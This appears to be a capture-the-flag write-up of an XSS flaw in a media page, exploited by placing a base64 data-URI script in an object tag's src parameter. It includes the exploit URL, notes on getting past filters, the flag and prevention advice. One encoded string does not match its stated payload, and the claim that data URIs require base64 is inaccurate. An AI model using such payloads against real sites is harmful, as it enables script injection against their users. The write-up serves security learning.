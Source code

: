 # XSS Vulnerability: Media Object Injection

## Overview
A Cross-Site Scripting (XSS) vulnerability exists in the media display feature. The `src` parameter is insecurely rendered, allowing attackers to inject scripts.

---

## Discovery & Exploitation

- The NSA image loads from:  
  `/page=media&src=nsa`

- Since an `<object>` tag is used, you can inject a script using a data URI.

**Steps:**
1. XSS payload: `<script>alert('hello')</script>`
2. Base64 encode: `PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=`
3. Data URI: `data:text/html;base64,PHNjcmlwdD5hbGVydCgnaGVsbG8nKTwvc2NyaXB0Pg==`
4. Exploit:  
   `/page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnaGVsbG8nKTwvc2NyaXB0Pg==`

When visited, this triggers a JS alert and shows the flag.

---

## Why Base64 Encoding is Used

Base64 encoding is used instead of directly inserting the XSS payload to:

1. **Bypass Input Filters:**  
   Some applications block or sanitize special characters (like `<`, `>`, `'`, `"`). Base64 encoding hides these characters, allowing the payload to bypass basic filters.

2. **Enable Data URI Usage:**  
   Data URIs require base64 encoding to safely embed scripts or HTML as resources for tags like `<object>`.

3. **Prevent Breaking HTML Structure:**  
   Raw scripts may be corrupted or break the page, but base64 within a data URI stays intact and is properly decoded by the browser.

The browser then decodes the base64 back to the script and executes it, successfully triggering XSS.

---

## Flag

`928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d`

---

## Prevention

1. **Whitelist sources**: Only allow trusted `src` values
2. **Content Security Policy**: Set strict CSP headers
3. **Input Validation**: Validate `src` against allowed patterns
4. **Output Encoding**: Always encode user-supplied data
5. **Avoid dynamic `<object>` tags**: Use safer HTML elements

---
